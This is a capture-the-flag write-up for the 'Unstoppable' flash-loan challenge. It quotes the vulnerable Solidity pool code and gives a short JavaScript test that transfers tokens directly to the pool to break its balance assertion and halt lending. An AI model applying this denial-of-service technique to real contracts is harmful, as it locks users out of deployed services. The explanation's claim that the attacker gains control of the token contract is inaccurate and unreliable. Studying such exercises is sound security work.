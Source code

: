 # Challange #1 - Unstoppable

### There’s a tokenized vault with a million DVT tokens deposited. It’s offering <b>flash loans</b> for free, until the grace period ends.

### To pass the challenge, make the vault stop offering <b>flash loans</b>.

<b>_Flash Loans_</b> is located in the <b>UnstoppableLender.sol</b> file.

Challange is to disable the <b>flash loans</b> in the <b>UnstoppableLender.sol</b> file.

this function takes a uint256 borrowAmount as a parameter.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {}
```

now we need to inspect variable poolBalance:

1. ```solidity
   uint256 public poolBalance;
   ```
2. ```solidity
   function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }
   ```
3. ```solidity
   assert(poolBalance == balanceBefore);
   ```

## Best place to exploit

```solidity
   assert(poolBalance == balanceBefore);
```

## Exploit

```javascript
it("Exploit", async function () {
	const TokenContractExploit = this.token.connect(attacker);
	await TokenContractExploit.transfer(
		this.pool.address,
		INITIAL_ATTACKER_TOKEN_BALANCE
	);
});
```

## Explanation

```javascript
const TokenContractExploit = this.token.connect(attacker);
```

    This line creates a new instance of the token contract (DamnValuableToken) connected to the attacker account.
    It allows the attacker account to interact with the token contract, effectively gaining control over it.

```javascript
await TokenContractExploit.transfer(
	this.pool.address,
	INITIAL_ATTACKER_TOKEN_BALANCE
);
```

    This line initiates a transfer of tokens from the attacker's controlled instance of the token contract to the lending contract (UnstoppableLender).
    The transferred amount is INITIAL_ATTACKER_TOKEN_BALANCE, which is set to 100 tokens.
